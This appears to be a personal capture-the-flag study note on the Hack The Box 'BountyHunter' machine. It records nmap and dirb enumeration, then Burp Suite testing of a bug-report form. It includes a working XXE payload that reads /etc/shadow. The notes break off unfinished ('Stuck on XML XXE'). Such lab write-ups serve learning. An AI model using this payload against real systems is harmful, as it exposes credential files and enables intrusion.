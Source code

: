 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1:
+ dirb ${IP} || dirb ${IP}/ -X .php
    + /assets/
    + /log_submit.php
    + /resources/

### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
    + Data needs to be ***URL
    + then Base64 decoded***
    + Find template https://github.com/payloadbox
    + adjust titles to mimic db.php titles
    + payload needs to be ***Base64 then url encoded***
+ Send payload via Burp/Repeater.

#### db.php payload: see ![](Screenshots/bountyhunter_xml_encoded_request.png)
<?xml version="1.0" encoding="ISO-8859-1"?>
    <bugreport>
    <title>test</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>

#### payload file disclosure:
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <bugreport>
    <title>&ent;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>

Obtain Username: ${UN}

#Stuck on XML XXE
TODO: Study more
